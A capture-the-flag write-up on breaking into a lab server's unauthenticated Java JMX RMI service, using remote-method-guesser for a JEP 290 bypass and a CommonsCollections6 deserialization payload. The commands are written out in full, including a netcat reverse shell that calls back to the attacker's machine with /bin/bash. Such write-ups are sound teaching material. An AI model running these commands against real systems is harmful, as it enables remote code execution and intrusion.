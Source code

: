 ## Arkanoid

Points: 5

We're given a server to check for vulnerabilities. 

Nmap scan `nmap -sV -T4 -A arkanoid.cns-jv.tcc -p1-65535` shows 8000, 60001, 60002 ports open:
```
Nmap scan report for arkanoid.cns-jv.tcc (10.99.0.102)
Host is up (0.019s latency).
rDNS record for 10.99.0.102: localhost
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE    VERSION
8000/tcp  open  http       JBoss Enterprise Application Platform
|_http-title: Gamedev Canvas Workshop - lesson 10: finishing up
36809/tcp open  tcpwrapped
60001/tcp open  java-rmi   Java RMI
| rmi-dumpregistry: 
|   jmxrmi
|      implements javax.management.remote.rmi.RMIServer, 
|     extends
|       java.lang.reflect.Proxy
|       fields
|           Ljava/lang/reflect/InvocationHandler; h
|             java.rmi.server.RemoteObjectInvocationHandler
|             @localhost:60002
|             extends
|_              java.rmi.server.RemoteObject
60002/tcp open  java-rmi   Java RMI

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.91 seconds
```

There's the game itself on port 8000 which isn't very interesting and unauthenticated JMX RMI on ports 60001 (registry) and 60002.

I tried several tools for scanning/attackng JMX RMI with the best results from https://github.com/qtc-de/remote-method-guesser which also conveniently comes with a Docker image (`docker pull ghcr.io/qtc-de/remote-method-guesser/rmg:4.4.0`).

So first I enumerated the 60001 registry endpoint with `docker run --rm -it ghcr.io/qtc-de/remote-method-guesser/rmg:4.4.0 enum 10.99.0.102 60001` which showed a JEP290 bypass enumeration vulnerability.


![alt text](img/rmg_enum.png)

JEP 290 was a security fix for JVM which removed the possibility to directly attack RMI using a deserialization attack by adding filtering on incoming connections. But the fix could still be bypassed by creating an outbound channel from the vulnerable target which doesn't have the filtering and so can be attacked as usual.

So the set this up, I needed 3 components (10.99.0.28 is IP of my machine on the VPN):
1 - reverse shell listener: `nc -vlp 7002`
2 - local RMI listener: `docker run --rm -it -p 7001:7001 ghcr.io/qtc-de/remote-method-guesser/rmg:4.4.0 listen 0.0.0.0 7001 CommonsCollections6 'nc 10.200.0.28 7002 -e /bin/bash'`
3 - bypass: `docker run --rm -it -p 7001:7001 ghcr.io/qtc-de/remote-method-guesser/rmg:4.4.0 serial 10.99.0.102 60001 AnTrinh 10.200.0.28:7001 --component reg`

Now that the netcat captured shell, I spent some time looking around for the flag but in the end it was env var of the running process
`env` -> flag

